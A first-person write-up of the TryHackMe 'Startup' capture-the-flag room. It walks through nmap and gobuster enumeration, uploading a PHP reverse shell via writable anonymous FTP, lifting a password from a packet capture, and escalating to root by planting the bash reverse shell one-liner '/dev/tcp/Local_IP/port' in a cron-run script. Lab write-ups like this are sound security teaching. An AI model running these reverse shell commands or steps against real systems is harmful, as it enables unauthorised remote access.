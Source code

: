 # TryHackMe: Startup CTF Writeup

## Introduction

This is my first CTF writeup. It will cover on how I did the enumeration, exploitation and privilege escalation. The challenge is rated easy. This room is about a startup called Spice Hut company who are worried about their security and are unsure if their developers are doing it right. So our job as pentester is to find root and will do just that.


## Scanning with Nmap 

First let's scan with nmap and also checking out as many ports as possible at same time so nothing is missed out. 

Syntax- nmap -sV -sC -p- <IP>

After scanning there are 3 ports that are open, these ports are 21,22 and 80.

![Nmap results 1](assets/nmap1.png)
![Nmap results 2](assets/nmap2.png)

However if you notice there's anonymous login allowed in ftp port which means we can access it without requiring specific user account.

## FTP enumeration

After logging as Anonymous in ftp port, there are apparently 2 files with one of them being text file. Perhaps we will find something useful from these two files. 

Syntax- ftp <IP>

![FTP enumeration](assets/ftp.png)

When checking there was nothing important found in these two files, while the text file had a name but that's still vague so before we can try anything lets check the browser.

![Website](assets/website.png)

The browser didn't have anything, using dev tools there was no giveaway even though the dev comment mentions they haven't updated anything yet.

Unfortunately we are still at Dead end with nothing useful even after getting ftp access and finding files. Instead what we can do is move on to Directory Enumeration with Gobuster. 

## Directory enumeration with GoBuster

Let's use gobuster to find out if we can find any files in the webdirectory which we couldn't find through ftp. 

Syntax- gobuster dir -u "<IP>" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

![Gobuster Enumeration 1](assets/gobuster1.png)
![Gobuster Enumeration 1](assets/gobuster2.png)

After searching through gobuster, there is files directory. In that directory it has ftp which was found same as in the port. This confirmed the FTP directory was accessible via the web server.

## Web enumeration

Now after checking through the webdirectory in the browser, it had same files that was found in ftp thus there might be more to this.

![Web enumeration](assets/webdirectory.png)

when checking ftp directory there was nothing in there, and if we remember the ftp directory in the port 21, There was full permission for ftp which can only mean one thing.

![Web enumeration](assets/ftp_directory.png)

What we can do here is to upload php reverse shell into ftp directory and hopefully get ssh access.

## Reverse Shell Exploit

After uploading php reverse shell, we will then start a listener from our side. We will access the php reverse shell.

Syntax- put php-reverse-shell.php

![Reverse Shell Exploit](assets/php_reverse_shell.png)
![Reverse Shell Exploit](assets/webshell_payload.png)

And The reverse shell has worked, now we just spawn the bash shell with python to make it easier navigating files.

Syntax- python3 -c 'import pty; pty.spawn("/bin/bash")'


![Reverse Shell Exploit](assets/ssh_access.png)
![Reverse Shell Exploit](assets/TTY.png)

When checking the files in current directory, there's a text file.

The recipe.txt file has the answer for the first task question.

![Reverse Shell Exploit](assets/task1_answer.png)

Next task we will need to find out user.txt, so we need to find a user account to access the flag, lets check navigate around and check if theres any name.

## Privilege Escalation

After navigating around the files, there are 2 notable mentions, first is incidents which has .pcapng in it which is really suspicious and it can be checked with wireshark to see if we can know anything useful about it. Other is in home directory, it has name as lennie which is obviously blocked from accessing it however that's probably the user we will need to get access for the next flag.

![Priv-Esc](assets/suspicious_files.png)

first lets download the .pcapng file and check with wireshark. 

Syntax- python3 -m http.server 8000 

        wget <local_IP>:8000/filename

![Priv-Esc](assets/suspicious_file_download.png)


Apparently the attacker had made an attempt before to access before and did it similar as we are doing it however they didn't get the access while trying to brute force but we stil get to know the password they attempted to use. Which could probably what we need for lennie account we had found.

![Priv-Esc](assets/wireshark.png)

We will try to access ssh credentials of lennie account and see if it works. Which it did and we are in.

![Priv-Esc](assets/user_access.png)

Not only that we are in directory where user flag is for the task 2 question.

![Priv-Esc](assets/user_flag.png)

With this flag done, now we only have one more flag left and its for root which we were asked to reach. For that, we will now navigate to see if theres any clues to escalate further.

I have checked in lennie's directory to see if theres any giveaway, there was some text files but they didn't mention anything important we need to know. However there was script folder, in that apparently there was planner.sh file and that file was run by root. This is very big clue and not only that.

![Priv-Esc](assets/scripts.png)
![Priv-Esc](assets/check_permissions1.png)

In that file there was another .sh and after checking the content, i found the permissions of print.sh has full permissions for the user account. 

![Priv-Esc](assets/user_permissions.png)


There's one more thing to note in user's directory, the text file has been running every minute as i rechecked permissions again, which means this is a cronjob and that means if we drop a reverse shell inside print.sh file which has full permissions for the user account we are using and then let it run after being modified which we can then do a listener to confirm if we are able to get the root privileges or not.

![Priv-Esc](assets/cronjob.png)

First, we will modify the print.sh with nano editor and then listen in our local machine with netcat and wait for abit.

Syntax- bash -i >& /dev/tcp/Local_IP/port 0>&1

![Priv-Esc](assets/reverse-shell.png)

And we are done, we have got the root access to the target and so is the flag for our final task.

![Priv-Esc](assets/root_access.png)
![Priv-Esc](assets/root_flag.png)

## Conclusion

This CTF tests the basics very well and understanding how to leverage FTP Anonymous access as well as exploit cronjob for privilege escalation. Thank you for reading this and hope it helps others.








